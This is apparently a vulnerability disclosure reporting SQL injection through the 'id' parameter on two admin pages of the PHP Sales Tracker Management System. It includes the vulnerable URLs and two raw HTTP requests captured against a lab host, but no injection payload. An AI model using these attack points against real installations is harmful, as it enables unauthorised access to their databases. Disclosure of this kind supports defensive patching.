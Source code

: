# Sales Tracker Management System has SQL injection

BUG_Author: Murasaki

URL: 

* /php-sts/admin/clients/view_client.php?id=*
* /php-sts/admin/?page=user/manage_user&id=*

Parameter "id" (GET), exists SQL injection vulnerability

Link:https://www.sourcecodester.com/php/16061/sales-tracker-management-system-using-php-free-source-code.html


There are two SQL injection vulnerabilities in the Sales Tracker Management System. 

The system has a SQL injection vulnerability in the place where the user information is browsed and edited. The currentDB can be obtained by using the administrator privilege data package for testing.

The contents of the two data packs are as follows

```
GET /php-sts/admin/?page=user/manage_user&id=2 HTTP/1.1
Host: 192.168.8.131
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.8.131/php-sts/admin/?page=user/list
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=laneat1rjdrp0f6su5o6955b36
Connection: close
```



```
GET /php-sts/admin/clients/view_client.php?id=4 HTTP/1.1
Host: 192.168.8.131
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://192.168.8.131/php-sts/admin/?page=clients
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=laneat1rjdrp0f6su5o6955b36
Connection: close
```

The URLs of the two detections are not the same
![](https://github.com/1MurasaKi/STMS_SQLi/blob/main/manager_user.png?raw=true)
![](https://github.com/1MurasaKi/STMS_SQLi/blob/main/view_client.png?raw=true)
